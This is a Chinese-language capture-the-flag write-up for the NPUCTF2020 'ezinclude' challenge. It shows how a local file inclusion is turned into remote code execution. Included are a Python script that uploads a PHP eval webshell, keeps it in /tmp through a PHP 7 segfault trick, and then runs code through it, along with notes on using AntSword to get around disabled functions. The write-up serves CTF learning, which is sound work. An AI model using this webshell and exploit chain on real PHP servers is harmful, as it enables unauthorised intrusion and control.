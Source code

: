 # \[NPUCTF2020]ezinclude

## \[NPUCTF2020]ezinclude

## 考点

* 从LFI到RCE
* 利用session.upload\_progress进行文件包含
* 利用php7 Segment Fault

## wp

打开直接显示`username/password error`

F12提示`md5($secret.$name)===$pass`

查看返回头给了HASH

```
Set-Cookie: Hash=fa25e54758d5d5c1927781a6ede89f8a; expires=Fri, 25-Feb-2022 05:50:05 GMT; Max-Age=3600000
```

这就相当于告诉了name和pass，访问`/?name=&pass=fa25e54758d5d5c1927781a6ede89f8a`跳转到404页面，用burp抓包可以看到未跳转的页面

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

访问flflflflag.php，发现是404，再抓包

![](<../../.gitbook/assets/image (30) (1).png>)

是一个文件包含，直接尝试PHP伪协议`php://filter/read=convert.base64-encode/resource=index.php`

```php
<?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
  echo '<script language="javascript" type="text/javascript">
           window.location.href="flflflflag.php";
  </script>
';
}else{
  setcookie("Hash",md5($secret.$name),time()+3600000);
  echo "username/password error";
}
?>
<html>
<!--md5($secret.$name)===$pass -->
</html>
```

flflflflag.php

```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
  die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>
```

目录扫描可以找到dir.php

```php
<?php
var_dump(scandir('/tmp'));
?>
```

然后就没找到什么了，可能是LFI到RCE，对了，返回头写了PHP的版本是7.0

本来想用session.upload\_progress进行文件包含，可能是buu的限制没成功。那就换个思路，用[php7 Segment Fault](https://qftm.github.io/2020/03/15/LFI-PHPINFO-OR-PHP7-Segment-Fault/#toc-heading-19)

```php
import requests 
from io import BytesIO 
import re 

files = { 
    'file': BytesIO(b'<?php eval($_POST["cmd"]);?>') 
} 

url1 = 'http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=index.php' 

r = requests.post(url=url1, files=files, allow_redirects=False) 

url2 = 'http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=dir.php' 

r = requests.get(url2,allow_redirects=False) 
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content.decode()).group(0) 


print("++++++++++++++++++++++")
print(data) 
print("++++++++++++++++++++++") 


url3='http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=/tmp/'+data


data = { 'cmd':"phpinfo();" } 


r = requests.post(url=url3,data=data,allow_redirects=False) 

print(r.content)
```

我说怎么一直system不动，原来给ban了，所以用session.upload\_progress进行文件包含也是可以的。

![](<../../.gitbook/assets/image (3) (1) (1) (1).png>)

写入shell后用蚁剑然后bypass

![](<../../.gitbook/assets/image (15) (1).png>)

## 小结

1. 从LFI到RCE
2. 代码执行先看看`phpinfo()`有没有东西
